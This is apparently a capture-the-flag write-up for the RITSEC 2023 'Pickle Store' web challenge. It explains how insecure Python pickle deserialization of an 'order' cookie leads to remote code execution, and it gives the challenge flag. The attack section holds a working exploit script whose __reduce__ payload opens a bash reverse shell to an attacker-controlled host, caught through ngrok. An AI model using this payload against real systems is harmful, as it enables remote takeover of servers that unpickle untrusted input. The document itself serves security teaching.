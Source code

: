 # Pickle Store (RITSEC 2023)

**Challenge category**: Web<br>
**Challenge description**: "New pickles just dropped! Check out the store."<br>
**Challenge date**: ven, 31 Mar. 2023, 16:00 UTC — dom, 02 Apr. 2023, 16:00 UTC<br>
**Challenge points**: 223<br>

## Involved Vulnerability

The server of this challenge uses the Python module called *pickle*, which is used for serializing (“*Pickling*”) and deserializing (“*Unpickling*”) Python objects' structure (see [[1]](#1)). This module is vulnerable to RCE during unpickling of class instances (objects). Classes can be defined to contain methods that can be called during the unpickling process to specify how they should be unpickled. One of these methods is *\_\_reduce()\_\_*.<br>
As evidenced by [[1]](#1):<br>

>The \_\_reduce\_\_() method takes no argument and shall return either a string or preferably a tuple (the returned object is often referred to as the “reduce value”).<br>
If a string is returned, the string should be interpreted as the name of a global variable. \[...\]<br>
When a tuple is returned, it must be between two and six items long. Optional items can either be omitted, or None can be provided as their value. The semantics of each item are in order:<br> - A **callable object** that will be called to create the initial version of the object.<br> - A **tuple of arguments** for the callable object. An empty tuple must be given if the callable does not accept any argument.<br> - \[...\]
A Python function is a callable object. So, if the attacker defines a class like the one below, pickles its instance and send the pickled object to the server, this will execute the specified function with the parameters given in the tuple.
```python
class RCE:
    def __reduce__(self):
        return (function_name, (parameter_1,parameter_2,)) #if there is only 1 parameter: (parameter_1,)
```
## Exploring the challenge
This is the first thing we see as soon as we access the challenge:

![Pickle Store](https://user-images.githubusercontent.com/66698256/229376712-d235bbbb-0d59-4c3d-a9e0-ab0829107127.png)

If we click on one of the buttons (the first one, for example), we will be redirected to <code>/order</code>:

![Order executed](https://user-images.githubusercontent.com/66698256/229377403-7b7e14fd-62dd-46fd-9b15-5188b734f11d.png)

Clicking on the "New Order" button we will be redirected to the initial page. By inspecting the four buttons something interesting can be noticed:

![Cookie setting](https://user-images.githubusercontent.com/66698256/229377514-b38166dd-aa58-412f-866b-9b865f722abc.png)

When a button is clicked, a cookie called "*order*" is set to a base64 string containing a pickled object and sent to the server through a GET request to <code>/order</code>. Here the string is presumably read from the cookie, decoded, the pickled object unpickled and ultimately printed into the returned page (if a string). Thanks to this cookie the server knows which article (or pickle) the user has chosen to buy.<br>
If we take the cookie value defined in the event handler of the "Sweet Pickle" button, decode it and unpickle it, we'll understand better how all this works.

![Unpickling](https://user-images.githubusercontent.com/66698256/229381958-d871524b-304f-4e3b-932b-790bd8eba284.png)

As expected, the obtained object ("*sweetpickle*") is a string and it's the same visualized in the <code>/order</code> page.<br>
Thus we can pickle any object (not only strings), encode it in base64 and set the "*order*" cookie accordingly. Once recieved by the server at the <code>/order</code> endpoint, the string will be decoded, the pickled object unpickled and, if a string, printed on the returned page.

![Pickling](https://user-images.githubusercontent.com/66698256/229382473-c062a8e3-a07e-4b39-8ee6-72cf397041aa.png)

![Set forged cookie](https://user-images.githubusercontent.com/66698256/229382220-2c6b25ef-d00e-4681-8267-fa8c751e4892.png)

By reloading <code>/order</code> page the string "<code>AAAA</code>" will be printed out:

![AAAA](https://user-images.githubusercontent.com/66698256/229378762-be51dd0c-33b0-40c2-abcf-c1b41e340fde.png)

## Attack

The behaviour to be exploited is the insecure unpickling (or insecure deserialization) of particular pickled objects. What the application does with the output of the deserialization is of no interest to the attacker. A way to exploit the involved vulnerability is to spawn a reverse shell on the server through Python code. The *\_\_reduce\_\_()* method should be defined like this:

```python
host="IP_Address"   #or "Domain_Name"
port="PORT"
class RCE:
    def __reduce__(self):
        #code here will be executed only during pickling, not unpickling (only the return statement will be coded in pickle format).
        return (exec, ('from os import dup2;from subprocess import run; import socket; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("'+host+'",'+port+')); dup2(s.fileno(),0); dup2(s.fileno(),1); dup2(s.fileno(),2); run(["/bin/bash","-i"]);',))
```
Variables <code>host</code> and <code>port</code> contain, respectively, the IP address (or domain name) and the port on which the attacker will listen for the spawned reverse shell. 
The complete exploit is the following:
```python
import pickle
import base64
import requests
import socket
host="IP_Address"   #or "Domain_Name"
port="PORT"
class RCE:
    def __reduce__(self):
        #code here will be executed only during pickling, not unpickling (only the return statement will be coded in the pickled object).
        return (exec, ('from os import dup2;from subprocess import run; import socket; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("'+host+'",'+port+')); dup2(s.fileno(),0); dup2(s.fileno(),1); dup2(s.fileno(),2); run(["/bin/bash","-i"]);',))
pickled_bytes=pickle.dumps(RCE())    #Object instance ---> Pickle format (bytes)
pickled_base64_bytes = base64.b64encode(pickled_bytes)    #Pickle format (bytes) ---> Base64 encoding (bytes)
pickled_base64_string = pickled_base64_bytes.decode('ascii')   #Base64 encoding (bytes) ---> Base64 encoding (string)
response=requests.get("https://pickles-web.challenges.ctf.ritsec.club/order",cookies={"order":pickled_base64_string})
print(response.text)
```
In order to execute a reverse shell a service like *ngrok* can be used. In this example we will listen on port <code>9001</code> of our own machine, but, for the server, we will listen on port <code>19945</code> at <code>4.tcp.eu.ngrok.io</code> (*ngrok* will redirect traffic on its port to ours). So:

![Listening_Reverse_Shell](https://user-images.githubusercontent.com/66698256/229460262-ab932d54-cd3b-4129-8e6a-0414c33c22e6.png)

Then we'll execute the exploit:

![Exploit](https://user-images.githubusercontent.com/66698256/229460307-60e25c2c-305a-493c-a2e4-e2c2553d8721.png)

![Spawned_Reverse_Shell](https://user-images.githubusercontent.com/66698256/229456613-76d66a6c-1468-4e23-8626-c1c79855f29c.png)

Reverse shell spawned! The flag is inside <code>/flag</code>.

![Flag](https://user-images.githubusercontent.com/66698256/229458939-a3ca621a-0721-4edf-8ae2-a1709a4c9edd.png)

Flag is <code>RS{TH3_L345T_53CUR3_P1CKL3}</code>.




## References
<a id="1">[1]</a> 
https://docs.python.org/3/library/pickle.html
